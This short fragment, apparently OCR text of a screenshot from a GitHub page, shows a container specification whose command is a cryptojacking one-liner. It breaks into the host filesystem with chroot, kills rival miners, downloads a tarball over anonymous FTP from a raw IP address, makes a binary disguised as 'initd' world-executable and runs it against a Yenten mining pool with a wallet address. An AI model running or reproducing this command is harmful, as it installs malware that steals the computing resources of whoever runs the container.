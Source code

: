 Image: ubuntu
        Command: chroot /mnt /bin/sh -c 'lscpu; killall checkfs;killall xmrig;killall initd; wget -O  /tmp/m.tar.gz ftp://anonymous:anonymous@24.238.76.235/volume\(sda1\)/TP1/D/m.tar.gz; tar xvf /tmp/m.tar.gz -C /tmp; chmod 777 /tmp/AppDir/usr/bin/initd;   /tmp/AppDir/usr/bin/initd -u YkqSewoxH2WQqC6srrKC6srrK1qoP9Rbf5vMNaWc -p home-farm -a yespowerr16 -o stratum+tcp://yenten-pool.info:63368 ; ls'
